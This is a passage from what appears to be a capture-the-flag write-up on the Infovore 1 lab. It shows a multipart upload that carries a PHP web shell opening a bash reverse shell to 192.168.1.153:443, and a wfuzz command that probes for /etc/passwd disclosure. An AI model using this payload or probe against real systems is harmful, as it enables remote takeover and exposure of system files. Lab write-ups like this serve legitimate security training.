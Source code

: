 ```bash
Content-Type: multipart/form-data; boundary=--pwnd
----pwnd
Content-Disposition: form-data; name="name"; filename="cmd.php"
Content-Type:text/plain
<?php system ("bash -c 'bash -i >& /dev/tcp/192.168.1.153/443 0>&1 '")?>
----pwnd
```

**Step 12: PHP Reverse Shell Command**

This is a PHP command to execute a reverse shell. It attempts to establish a connection from the target server (`192.168.1.111`) to the IP `192.168.1.153` on port `443`.

**Next Step: Fuzzing with wfuzz**

We will now use **wfuzz** to identify parameters that may allow access to the `/etc/passwd` file.
![](/assets/post/infovore1/wfuzz.png)



```bash 
wfuzz -c --hl=136 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.1.111/index.php?FUZZ=/etc/passwd
```

## Wfuzz
**Step 13: wfuzz Command Breakdown**

**Command Parameters**:

- `-c`: Displays the output in color.
- `--hl=136`: Filters responses with 136 lines, likely to avoid unwanted results.
- `-t 200`: Sets the number of threads to 200, increasing the speed of requests.
- `-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`: Uses a wordlist to try different parameters in the URL.
- `FUZZ`: Indicates the injection point in the URL where the wordlist entries will be tested.



## Post-exploitation
